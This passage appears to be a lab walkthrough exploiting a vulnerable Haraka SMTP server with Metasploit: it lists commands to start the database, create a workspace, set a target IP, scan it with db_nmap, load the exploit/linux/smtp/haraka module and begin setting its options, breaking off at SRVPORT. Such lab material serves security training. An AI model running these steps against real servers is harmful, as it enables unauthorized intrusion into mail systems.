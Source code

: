 ```
service postgresql start
```

Start up the MSF console.

```
msfconsole
```

Create a new workspace.

```
workspace -a haraka
```

Set up the global variables for the RHOSTS option.

```
setg RHOSTS 192.86.51.3
```

Set the global variable for the rhost option.

```
setg rhost 192.86.51.3
```

Perform an Nmap scan on the target server to identify where the SMTP is currently running. And consequently, we also need to verify that the correct version or the vulnerable version of Haraka SMTP is running on the target server.

We'll do this by running an Nmap scan from within the MSF console. This can be facilitated through the use of the `db_nmap` command.

`-sV`: Perform a service detection scan.

`-O`: Perform an operating system detection scan.

The `db_nmap` command will save all of the Nmap scan results into the MSF database, which will allow us to analyze the scan results whenever we want to. 

```
db_nmap -sV -O 192.86.51.3
```

```
search type:exploit name:haraka
use exploit/linux/smtp/haraka
show options
```

We need to specify a few important options like the server host (SRVHOST) and the server port (SRVPORT) as well as the email to.

We need to specify the test email send address (email_to). And this must be accepted by the server.

The first option that we want to set is the server port (SRVPORT), which we will set to port 9898.

```
set SRVPORT 9898
```
